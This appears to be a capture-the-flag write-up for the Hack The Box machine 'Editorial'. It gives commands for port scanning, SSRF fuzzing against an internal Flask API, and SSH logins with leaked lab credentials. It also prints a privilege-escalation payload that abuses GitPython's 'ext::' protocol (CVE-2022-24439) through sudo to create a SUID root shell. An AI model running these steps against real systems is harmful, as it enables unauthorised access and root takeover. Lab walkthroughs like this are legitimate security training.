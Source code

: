 # Editorial

**Machine Info:**  
- Platform: [HTB](HTB)  
- **IP:** `10.10.11.20`  
- **OS:** [Linux](Linux)  
- **Difficulty:** [Easy](Easy)  
- **Exploits Used:**  
  - SSRF in image upload to hit internal Flask API  
  - Internal API enumeration for dev SSH creds  
  - Git repo recovery for prod SSH creds  
  - CVE‑2022‑24439 GitPython “ext::” RCE via sudo  

**Open Ports:**  
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP) 80/tcp  

**Tools:**  
nmap, ffuf, feroxbuster, Burp Suite, curl, git‑dumper, git, unzip/zip, Python 3 (requests), sshpass  

---

## Recon 🔍  
```bash
# Scan for services
nmap -p- --min-rate 10000 10.10.11.20
nmap -p 22,80 -sCV       10.10.11.20

# Fuzz internal ports via SSRF endpoint
ffuf -u http://editorial.htb/upload-cover \
     -request ssrf.request \
     -w <(seq 0 65535) -ac
```

---

## Shell as dev 🐚  
1. **Exploit SSRF** on `/upload-cover` by supplying `http://127.0.0.1:5000` → retrieve JSON from internal API.  
2. **Enumerate endpoints**, hit `/api/latest/metadata/messages/authors` → leak:  
   ```
   Username: dev
   Password: dev080217_devAPI!@
   ```  
3. **SSH in** as dev:  
   ```bash
   sshpass -p 'dev080217_devAPI!@' ssh dev@editorial.htb
   cat user.txt
   ```

---

## Shell as prod 👤  
1. **Recover deleted apps repo** in `~/apps/.git`:  
   ```bash
   cd ~/apps
   git checkout .
   ```  
2. **Inspect git history** (`git log`) and diff `app_api/app.py` → find prod creds:  
   ```
   Username: prod
   Password: 080217_Producti0n_2023!@
   ```  
3. **SSH in** as prod:  
   ```bash
   sshpass -p '080217_Producti0n_2023!@' ssh prod@editorial.htb
   ```

---

## Shell as root 👑  
1. **Check sudo:**  
   ```bash
   sudo -l
   # Allows: python3 clone_prod_change.py *
   ```  
2. **Abuse GitPython RCE (CVE‑2022‑24439):**  
   ```bash
   sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py \
     'ext::sh -c "cp /bin/sh /tmp/rootshell; chmod 4755 /tmp/rootshell"'
   /tmp/rootshell -p
   whoami   # → root
   cat /root/root.txt
   ```

---

## Actions Learned 🎓  
- SSRF pivot to internal API  
- Automated API enumeration for creds  
- Git repo forensic recovery  
- GitPython protocol extension RCE via sudo  
- Crafting SUID shell via RCE  

---

## References 🔗  
- [CVE‑2022‑24439 — GitPython protocol.ext.allow exploit](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)  
- Flask SSRF patterns in image‑upload handlers  
- GitPython `clone_from(..., multi_options=["-c protocol.ext.allow=always"])` behavior